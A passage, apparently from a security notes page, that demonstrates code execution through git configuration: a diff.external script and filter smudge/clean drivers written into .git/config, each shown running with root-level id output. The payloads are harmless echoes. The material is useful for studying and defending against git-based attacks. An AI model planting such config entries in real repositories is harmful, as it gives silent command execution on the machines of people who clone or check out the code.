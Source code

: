 #### diff.external

[diff.external](https://git-scm.com/docs/git-config#Documentation/git-config.txt-diffexternal) gives a command that will be used instead of git's internal diff function.

```bash
$ echo $'#!/bin/bash\necho \\"Pwned as $(id)\\">&2' > pwn.sh
$ chmod +x pwn.sh
$ git clone https://github.com/user/project.git
$ cd project
$ git -c diff.external="../pwn.sh" HEAD 480e4c9
"Pwned as uid=0(root) gid=0(root) groups=0(root)"
```

#### filter.&lt;driver&gt;.clean and filter.&lt;driver&gt;.smudge

[filter.<driver>.clean](https://git-scm.com/docs/git-config#Documentation/git-config.txt-filterltdrivergtclean) is used to convert the content of a worktree file to a blob upon checkin.

[filter.<driver>.smudge](https://git-scm.com/docs/git-config#Documentation/git-config.txt-filterltdrivergtsmudge) is used to convert the content of a blob object to a worktree file upon checkout.

```bash
$ cd $(mktemp -d)
# initialized empty Git repository in /tmp/tmp.hLncfRcxgC/.git/
$ git init
# filter.&lt;driver&gt;.clean and filter.&lt;driver&gt;.smudge
# so that they echo a message to STDERR whenever they are invoked
$ echo $'[filter "any"]\n\tsmudge = echo \\"Pwned smudge as $(id)\\">&2\n\tclean = echo \\"Pwned clean as $(id)\\">&2' >> ./.git/config
# add filter to .gitattributes
$ touch example
$ git add ./example
$ git commit -m 'commit'
$ echo "*  text  filter=any" > .gitattributes
$ git status
Pwned clean as uid=0(root) gid=0(root) groups=0(root)
On branch master
Untracked files:
  (use "git add <file>..." to include in what will be committed)
	.gitattributes

nothing added to commit but untracked files present (use "git add" to track)

$ git add .gitattributes
Pwned clean as uid=0(root) gid=0(root) groups=0(root)
```

```bash
$ cd $(mktemp -d)
# initialized empty Git repository in /tmp/tmp.hLncfRcxgC/.git/
$ git init
# filter.&lt;driver&gt;.clean and filter.&lt;driver&gt;.smudge
# so that they echo a message to STDERR whenever they are invoked
$ echo $'[filter "any"]\n\tsmudge = echo \\"Pwned smudge as $(id)\\">&2\n\tclean = echo \\"Pwned clean as $(id)\\">&2' >> ./.git/config
# add filter to .gitattributes
$ echo "*  text  filter=any" > .gitattributes
$ git fetch
$ git checkout main
Pwned smudge as uid=0(root) gid=0(root) groups=0(root)
Pwned smudge as uid=0(root) gid=0(root) groups=0(root)
Branch 'main' set up to track remote branch 'main' from 'origin'.
Switched to a new branch 'main'
```
